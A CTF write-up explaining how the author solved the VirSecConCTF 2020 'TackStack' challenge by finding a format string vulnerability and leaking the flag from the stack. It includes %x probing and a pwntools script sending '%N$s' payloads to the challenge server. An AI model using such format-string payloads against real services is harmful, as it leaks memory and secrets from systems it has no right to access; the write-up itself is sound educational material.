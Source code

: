 ```yaml
---
layout: post
title: VirSecConCTF 2020 - TackStack
excerpt: "Writeup for data leak challenge from VirSecConCTF 2020"
categories: [pwn]
---
```


Tackstack was a 100 point challenge during VirSecConCTF 2020. We are given a command to connect to the challenge with no source code provided. Below is a snapshot of the challenge server in action. Basically it allows us to type in "tacks" to be added to the stack.

```
michael@computer:~/Documents/CTF/virseccon/tackstack$ nc jh2i.com 50038
========================
|       TACKSTACK      |
========================


Welcome to TackStack!
How to play:
  * Stack your tacks!
Ready? Go!

Your tack: tack
------------------------
|                      |
    tack
|                      |
------------------------

Your tack: tack2
------------------------
|                      |
    tack
    tack2
|                      |
------------------------

Your tack: %x
------------------------
|                      |
    tack
    tack2
    4030be
|                      |
------------------------
```

In the last prompt, where I entered `%x`, you can see that a hex number was returned. This indicates a format string vulnerability. Since we were not provided source code or a binary to collect any further information, I wrote a script to leak all strings off of the stack to see if there was anything useful.

{% highlight python %}
from pwn import *

context.log_level = 'error'

for i in range(100):

    r = remote('jh2i.com', 50038)

    r.recvuntil('Your tack: ')
    r.sendline('%{}$s'.format(i + 1))

    try: print(r.recvuntil('Your tack: ')[54:100].rstrip())
    except: print('EOF')
    
    r.close()

{% endhighlight %}

The script outputs lots of non-ascii junk, along with parts of the ascii-boxes, but around leak 100 we see something interesting.

```
|                      |
-------
FLAG=LLS{tack_stack?_more_like_stack_attack}
|
(null)
|                      |
--------------
EOF
```

We can see that the flag `LLS{tack_stack?_more_like_stack_attack}` was on the stack all along! I hope this was helpful!